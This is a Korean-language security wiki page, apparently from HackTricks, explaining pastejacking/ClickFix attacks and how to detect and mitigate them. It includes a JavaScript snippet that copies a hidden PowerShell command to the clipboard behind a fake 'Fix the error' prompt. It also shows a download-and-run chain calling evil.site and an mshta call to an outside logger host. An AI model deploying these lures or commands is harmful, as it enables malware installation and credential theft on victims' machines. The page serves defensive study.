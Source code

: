 # Clipboard Hijacking (Pastejacking) Attacks

{{#include ../../banners/hacktricks-training.md}}

> "절대 자신이 복사하지 않은 것을 붙여넣지 마세요." – 오래된 조언이지만 여전히 유효합니다.

## Overview

Clipboard hijacking – 또한 *pastejacking*으로 알려져 있음 – 사용자가 명령을 검사하지 않고 일상적으로 복사하고 붙여넣는 사실을 악용합니다. 악의적인 웹 페이지(또는 Electron 또는 데스크탑 애플리케이션과 같은 JavaScript를 지원하는 컨텍스트)는 공격자가 제어하는 텍스트를 시스템 클립보드에 프로그래밍 방식으로 삽입합니다. 피해자는 일반적으로 정교하게 제작된 사회 공학 지침에 의해 **Win + R** (실행 대화 상자), **Win + X** (빠른 액세스 / PowerShell)을 누르거나 터미널을 열고 클립보드 내용을 *붙여넣기* 하도록 유도되어 즉시 임의의 명령을 실행하게 됩니다.

**파일이 다운로드되지 않고 첨부파일이 열리지 않기 때문에**, 이 기술은 첨부파일, 매크로 또는 직접 명령 실행을 모니터링하는 대부분의 이메일 및 웹 콘텐츠 보안 제어를 우회합니다. 따라서 이 공격은 NetSupport RAT, Latrodectus 로더 또는 Lumma Stealer와 같은 상용 맬웨어 패밀리를 배포하는 피싱 캠페인에서 인기가 있습니다.

## JavaScript Proof-of-Concept
```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
navigator.clipboard.writeText(payload)
.then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```
이전 캠페인은 `document.execCommand('copy')`를 사용했지만, 최신 캠페인은 비동기 **Clipboard API** (`navigator.clipboard.writeText`)에 의존합니다.

## ClickFix / ClearFake 흐름

1. 사용자가 오타가 있는 또는 손상된 사이트(예: `docusign.sa[.]com`)를 방문합니다.
2. 주입된 **ClearFake** JavaScript가 `unsecuredCopyToClipboard()` 헬퍼를 호출하여 Base64로 인코딩된 PowerShell 원라이너를 클립보드에 조용히 저장합니다.
3. HTML 지침은 피해자에게 다음과 같이 말합니다: *“**Win + R**을 누르고, 명령을 붙여넣고 Enter를 눌러 문제를 해결하세요.”*
4. `powershell.exe`가 실행되어 합법적인 실행 파일과 악성 DLL이 포함된 아카이브를 다운로드합니다(고전적인 DLL 사이드로딩).
5. 로더가 추가 단계를 복호화하고, 셸코드를 주입하며, 지속성을 설치합니다(예: 예약 작업) – 궁극적으로 NetSupport RAT / Latrodectus / Lumma Stealer를 실행합니다.

### 예시 NetSupport RAT 체인
```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```
* `jp2launcher.exe` (정상적인 Java WebStart)는 자신의 디렉토리에서 `msvcp140.dll`을 검색합니다.
* 악성 DLL은 **GetProcAddress**로 API를 동적으로 해결하고, **curl.exe**를 통해 두 개의 바이너리(`data_3.bin`, `data_4.bin`)를 다운로드하며, `"https://google.com/"`라는 롤링 XOR 키를 사용하여 이를 복호화하고, 최종 셸코드를 주입하며 **client32.exe** (NetSupport RAT)를 `C:\ProgramData\SecurityCheck_v1\`에 압축 해제합니다.

### Latrodectus Loader
```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```
1. **curl.exe**로 `la.txt` 다운로드
2. **cscript.exe** 내에서 JScript 다운로더 실행
3. MSI 페이로드를 가져옴 → 서명된 애플리케이션 옆에 `libcef.dll` 드롭 → DLL 사이드로딩 → 셸코드 → Latrodectus.

### MSHTA를 통한 Lumma Stealer
```
mshta https://iplogger.co/xxxx =+\\xxx
```
The **mshta** 호출은 숨겨진 PowerShell 스크립트를 실행하여 `PartyContinued.exe`를 검색하고, `Boat.pst` (CAB)를 추출하며, `extrac32` 및 파일 연결을 통해 `AutoIt3.exe`를 재구성한 후, 브라우저 자격 증명을 `sumeriavgv.digital`로 유출하는 `.a3x` 스크립트를 실행합니다.

## 탐지 및 사냥

블루팀은 클립보드, 프로세스 생성 및 레지스트리 텔레메트리를 결합하여 pastejacking 남용을 정확히 찾아낼 수 있습니다:

* Windows 레지스트리: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`는 **Win + R** 명령의 기록을 유지합니다 – 비정상적인 Base64 / 난독화된 항목을 찾아보세요.
* 보안 이벤트 ID **4688** (프로세스 생성)에서 `ParentImage` == `explorer.exe`이고 `NewProcessName`이 { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` }에 있는 경우.
* 의심스러운 4688 이벤트 직전에 `%LocalAppData%\Microsoft\Windows\WinX\` 또는 임시 폴더에서 파일 생성에 대한 이벤트 ID **4663**.
* EDR 클립보드 센서 (존재하는 경우) – `Clipboard Write`가 새로운 PowerShell 프로세스에 의해 즉시 이어지는지 상관관계 분석.

## 완화 조치

1. 브라우저 강화 – 클립보드 쓰기 접근을 비활성화 (`dom.events.asyncClipboard.clipboardItem` 등)하거나 사용자 제스처를 요구합니다.
2. 보안 인식 – 사용자에게 민감한 명령을 *타이핑* 하거나 먼저 텍스트 편집기에 붙여넣도록 교육합니다.
3. PowerShell 제한 언어 모드 / 실행 정책 + 응용 프로그램 제어를 통해 임의의 원라이너를 차단합니다.
4. 네트워크 제어 – 알려진 pastejacking 및 악성 C2 도메인에 대한 아웃바운드 요청을 차단합니다.

## 관련 트릭

* **Discord 초대 하이재킹**은 사용자를 악성 서버로 유인한 후 동일한 ClickFix 접근 방식을 자주 남용합니다:
{{#ref}}
discord-invite-hijacking.md
{{#endref}}

## 참조

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)

{{#include ../../banners/hacktricks-training.md}}
